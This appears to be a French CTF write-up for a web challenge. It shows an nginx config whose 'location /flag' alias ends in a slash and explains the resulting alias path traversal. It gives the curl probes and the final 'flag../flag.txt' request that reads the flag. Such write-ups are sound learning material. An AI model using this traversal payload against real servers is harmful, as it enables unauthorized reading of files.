 ## TAGS : #WEB #PATHTRAVERSAL

https://labs.hakaioffsec.com/nginx-alias-traversal/

Fichier de config nginx fourni : 
```worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include mime.types;
    default_type application/octet-stream;

    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    keepalive_timeout 65;

    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    server {
        listen [::]:8080 default_server;
        listen 8080 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;

        location / {
            alias /var/www/html/;
        }

        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }

    }
}
```

La partie interessante de la config se situe à la fin :
```
        location / {
            alias /var/www/html/;
        }

        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }
```

Sur le site WEB, on essaye /flag puis on est redirigé sur Rick Astley, toujours un plaisir (non)
### <strong><font style="color:white"  font size=4px>🟡🔰Alias🔰🟡  </font></strong> 
Alias est vulnérable au attaque de type path traversal si il termine par un "**/**", ce qui est le cas ici 
![[Pasted image 20240308111912.png]]

curl http://ctf.hackinprovence.fr:33238/ -I 
* HTTP/1.1 200 OK

curl http://ctf.hackinprovence.fr:33238/flag -I
* HTTP/1.1 301 Moved Permanently


  # <strong><font style="color:red"  font size=6px>🔴🎯<u>FLAG</u>🔴🎯 </font></strong> 

`curl http://ctf.hackinprovence.fr:33238/flag../flag.txt `
